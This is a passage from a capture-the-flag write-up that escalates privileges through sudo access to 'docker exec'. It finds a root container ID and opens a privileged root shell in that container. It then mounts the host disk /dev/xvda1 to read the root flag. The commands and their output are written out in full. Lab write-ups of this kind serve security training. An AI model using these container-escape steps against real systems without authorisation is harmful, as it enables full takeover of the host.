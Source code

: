 There seems to be a `privileged` flag that we can run alongside the binary. This is most of what we'll need, the only exception being a valid container. If you attempt to enumerate any of the running containers, you won't be able to as we only have sudo access to `docker exec`. This means we'll need to try and find any running containers/container IDs, or just get lucky with a bit of guessing.

Fortunately enough we won't have to do any of that. If you run `ps awwfux` on this container, you'll see that there's already a container running in the context of root.

```
root      1670  0.0  0.7 712860  7912 ?        Sl   16:11   0:00 /snap/docker/1125/bin/containerd-shim-runc-v2 -namespace moby -id e6ff5b1cbc85cdb2157879161e42a08c1062da655f5a6b7e24488342339d4b81 -address /run/snap.docker/containerd/containerd.sock
```

It also shows us the specific ID of this container, meaning we can attach to it using our `docker exec` command.

```
boris@ip-10-10-10-11:~$ sudo docker exec -it --privileged --user root e6ff5b1cbc85cdb2157879161e42a08c1062da655f5a6b7e24488342339d4b81 /bin/bash
bash-5.1# whoami
root
```

# Mounting XVDA

Although we are root, we aren't technically finished yet. We'll need to find the root flag, which is not currently on this machine as we are within a docker container.

Through a quick bit of research, I found that the `/root` filesystem of the docker controller is within `/dev/xvda1`, meaning we can mount that to a local directory on our container to view the contents.

```
bash-5.1# pwd
/tmp/mount_xvda
bash-5.1# mount /dev/xvda1 /tmp/mount_xvda
```

If we access this specific directory where `xvda1` was mounted, we'll see the filesystem of the docker controller here.

```
bash-5.1# cd mount_xvda/
bash-5.1# ls
bin             home            lib64           opt             sbin            tmp             vmlinuz.old
boot            initrd.img      lost+found      proc            snap            usr
dev             initrd.img.old  media           root            srv             var
etc             lib             mnt             run             sys             vmlinuz
bash-5.1# cd root
bash-5.1# ls
root.txt  snap
```

As you can see, we were successfully able to read the contents of the `/root` directory on the actual machine, meaning we have successfully completed this machine!
